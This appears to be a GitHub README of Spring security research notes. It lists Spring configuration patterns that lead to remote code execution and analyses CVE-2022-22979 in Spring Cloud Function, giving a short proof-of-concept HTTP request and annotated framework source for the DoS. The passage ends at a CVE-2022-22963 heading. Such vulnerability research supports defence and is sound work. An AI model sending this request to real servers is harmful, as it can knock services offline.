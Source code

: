 SpringBoot: https://start.spring.io/

Spring Projects Examples: https://github.com/spring-projects

Spring Extension Examples: https://github.com/spring-guides

Sring Cloud correspond to Springboot versions: https://spring.io/projects/spring-cloud
```
    <properties>
        <java.version>1.8</java.version>
<!--        <spring-cloud.version>2021.0.3</spring-cloud.version>-->
        <spring-cloud.version>Hoxton.SR3</spring-cloud.version>
    </properties>
```

## Some Problems in Spring Config
Spring OXM —— XStreamMarshaller —— XStream RCE

Hibernate-Validator —— @Valid + buildConstraintViolationWithTemplate —— EL RCE

Http-Invoker —— HttpInvokerServiceExporter —— Deserialization RCE

Ref: https://github.com/ax1sX/SpringSecurity/tree/main/SpringConfigTest

## Vulnerabilities
### （1）Spring Cloud Function
#### CVE-2022-22979 DoS
Affected Version: < 3.2.6

Ref: https://checkmarx.com/blog/spring-function-cloud-dos-cve-2022-22979-and-unintended-function-invocation/

POC: 
```
POST /uppercase, HTTP/1.1

{'a':1}
```
Factor: 
```
BeanFactoryAwareFunctionRegistry
public <T> T lookup(Class<?> type, String functionDefinition, String... expectedOutputMimeTypes) {
    functionDefinition = StringUtils.hasText(functionDefinition) ? functionDefinition : this.applicationContext.getEnvironment().getProperty("spring.cloud.function.definition", ""); // get uri -> "uppercase,"
    functionDefinition = this.normalizeFunctionDefinition(functionDefinition); // Replace , with |, -> "uppercase|"
    ...
    FunctionInvocationWrapper function = (FunctionInvocationWrapper)this.doLookup(type, functionDefinition, expectedOutputMimeTypes);// (1)function=wrappedFunctionDefinitions.get(functionDefinition); (2)if(function==null){"uppercase|" -> ["uppercase", ""]，遍历数组从Function注册表中寻找对应值，找到了就将Function存放于wrappedFunctionDefinitions，没找到就返回空}
    if (function == null) {
      ...
      this.register(functionRegistration);// SimpleFunctionRegistry.register
    }
}

SimpleFunctionRegistry
public <T> void register(FunctionRegistration<T> registration) {
    this.functionRegistrations.add(registration); //将funtion注册在funtionRegistrations中，它是CopyOnWriteArraySet类型，随着size无限增大造成DoS
}
```
#### CVE-2022-22963 SpEL
Affected Version: <= 3.1.6, 3.2.2